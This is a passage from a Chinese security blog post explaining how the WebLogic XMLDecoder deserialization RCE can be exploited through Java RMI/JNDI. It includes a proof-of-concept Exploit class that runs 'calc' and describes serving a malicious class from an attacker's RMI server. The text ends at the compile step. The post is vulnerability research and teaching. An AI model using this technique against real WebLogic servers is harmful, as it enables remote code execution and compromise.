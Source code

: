 ```yaml
---
title: Weblogic XMLDecoder RCE之RMI利用
date: 2018-01-09 10:45:49
tags: [vul,sec,weblogic,rmi]
categories: Security
---
```

<script src="https://ob5vt1k7f.qnssl.com/pangu.js"></script>

前阵子披露出的Weblogic XMLDecoder反序列化漏洞影响广泛，不少厂商都中了招，最近又捕获到不少利用这个漏洞进行挖矿的案例，实际上一开始在野外出现的利用就是挖矿程序，那时候漏洞还没被披露= =所以说有些时候黑产都快成为行业的风向标了，安全领域需要与黑灰色产业斗智斗勇，任重道远...

这个漏洞的PoC写法灵活变种很多，这次来简单说一下利用java的远程方法调用(Remote Method Invocation, RMI)进行利用的方式

### 0x01 RMI简介
这里就直接贴一段网上的介绍

> RMI是Remote Method Invocation的简称，是J2SE的一部分，能够让程序员开发出基于Java的分布式应用。一个RMI对象是一个远程Java对象，可以从另一个Java虚拟机上（甚至跨过网络）调用它的方法，可以像调用本地Java对象的方法一样调用远程对象的方法，使分布在不同的JVM中的对象的外表和行为都像本地对象一样。

> 对于任何一个以对象为参数的RMI接口，你都可以发一个自己构建的对象，迫使服务器端将这个对象按任何一个存在于class path中的可序列化类来反序列化。

> RMI的传输100%基于反序列化。

说实话有点难理解，简单说就是我们可以在远程服务器创建一个对象，然后在本地通过rmi的方式调用这个对象，如果攻击者可以控制某个方法向攻击者的服务器发起rmi请求，从而加载恶意类，就能达到远程攻击的目的。rmi属于JNDI的一种实现方式。

### 0x02 本地调试
这里我使用了@廖新喜的[fastjson 远程反序列化](http://xxlegend.com/2017/04/29/title-%20fastjson%20%E8%BF%9C%E7%A8%8B%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96poc%E7%9A%84%E6%9E%84%E9%80%A0%E5%92%8C%E5%88%86%E6%9E%90/)攻击使用的PoC，里面的JNDI服务可以满足要求

下载[项目](https://github.com/shengqi158/fastjson-remote-code-execute-poc)，在IDEA中打开，我们使用的是JNDI的服务端和客户端部分

#### 远程
首先我们在远程服务器上建立一个`Exploit`类:
```
public class Exploit {
    public Exploit(){
        try{
            Runtime.getRuntime().exec("calc");
        }catch(Exception e){
            e.printStackTrace();
        }
    }
    public static void main(String[] argv){
        Exploit e = new Exploit();
    }
}
```
然后编译为class:
`/usr/lib/jvm/jdk1.7.0_79/bin/javac Exploit.java`
